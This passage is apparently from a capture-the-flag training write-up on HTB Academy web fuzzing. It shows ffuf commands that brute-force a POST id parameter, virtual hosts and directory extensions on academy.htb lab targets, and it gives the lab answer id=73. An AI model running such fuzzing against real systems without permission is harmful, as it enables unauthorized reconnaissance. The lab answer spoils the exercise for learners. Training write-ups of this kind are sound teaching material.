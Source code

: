 And it returns `Invalid id!`. Build a crafted wordlist with the bash command.

```bash
for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

And execute the Ffuf tool.

```bash
ffuf -w ids.txt:FUZZ 
     -u http://admin.academy.htb:30350 
     -X POST 
     -d 'id=FUZZ' 
     -H 'Content-Type: application/x-www-form-urlencoded'
     -fs 768
```

The answer is `id=73`.

```bash
curl http://admin.academy.htb:30350/admin/admin.php \
  -X POST \
  -d 'id=73' \
  -H 'Content-Type: application/x-www-form-urlencoded'
```

The flag is in the response content.

## Skill Assessment

Fuzz with the VHOST method :

```bash
ffuf -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ \
     -u http://academy.htb:30302 \
     -H 'Host: FUZZ.academy.htb' \
     -fs 985
```

There are 3 subdomains :

* archive.academy.htb
* faculty.academy.htb
* test.academy.htb

To find all extensions (including subdomains), you must have 2 wordlists.

{% code title="subdomains.txt" %}
```
academy.htb
archive.academy.htb
faculty.academy.htb
test.academy.htb
```
{% endcode %}

```
ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ1 
     -w subdomains.txt:FUZZ2
     -u http://FUZZ2/indexFUZZ1
```
